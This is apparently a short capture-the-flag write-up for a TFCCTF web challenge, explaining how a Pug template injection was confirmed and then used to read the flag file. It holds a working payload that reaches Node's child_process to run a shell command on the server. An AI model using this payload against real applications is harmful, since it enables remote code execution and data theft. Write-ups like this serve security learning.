 <img src="https://github.com/raul-dunca/assets/blob/main/.images/greetings.png?raw=true">

For this challenge, even if there is an XSS vulnerability (on which I wasted a considerable amount of time X_X) there is also a SSTI in Pug. Basically trying `#{7*7}` yields:

<img src="https://github.com/raul-dunca/assets/blob/main/.images/g1.png?raw=true">

So the SSTI is confirmed. After playing with some payloads I discovered this one:

```pug
#{new Function('return global.process.mainModule.require("child_process").execSync("cat flag.txt").toString()')()}
```

`TFCCTF{a6afc419a8d18207ca9435a38cb64f42fef108ad2b24c55321be197b767f0409}`
